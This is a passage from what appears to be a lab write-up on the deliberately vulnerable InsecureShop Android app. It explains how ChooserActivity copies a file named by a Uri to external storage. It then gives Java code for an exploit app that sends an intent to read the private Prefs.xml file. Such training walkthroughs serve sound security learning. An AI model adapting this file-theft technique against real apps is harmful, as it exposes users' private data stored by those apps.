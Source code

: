Moving to the **`makeTempCopy()` :**

- Creates a temporary copy of the file specified by the `Uri`.
- It reads the content of the original file and writes it to a new file in the external storage directory (`/sdcard/insecureshop/`).

Moving to the **`getFilename()`:**

- This method determines the filename from a `Uri`.

Based upon the above information, let’s create an exploit app with following code to seal a copy from the `Prefs.xml` file as an example:

```java
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Button TheftofArbitraryFilesButton = (Button) findViewById(R.id.TheftofArbitraryFiles);

        // Set a click listener to send the intent
        TheftofArbitraryFilesButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                Intent StealingFile = new Intent();
                // Selecting the ChooserActivity
                StealingFile.setClassName("com.insecureshop", "com.insecureshop.ChooserActivity");
                // Specfiying the Prefs.xml file
                Uri FileName = Uri.parse("/data/data/com.insecureshop/shared_prefs/Prefs.xml");
                // adding the EXTRA_STREAM as an extra to trigger the exported Intent
                StealingFile.putExtra(StealingFile.EXTRA_STREAM, FileName);
                // Starting the Intent
                startActivity(StealingFile);
            }
        });
    }
}
```

Let’s Install the application:

![image.png](/assets/InsecureShop/image%2011.png)
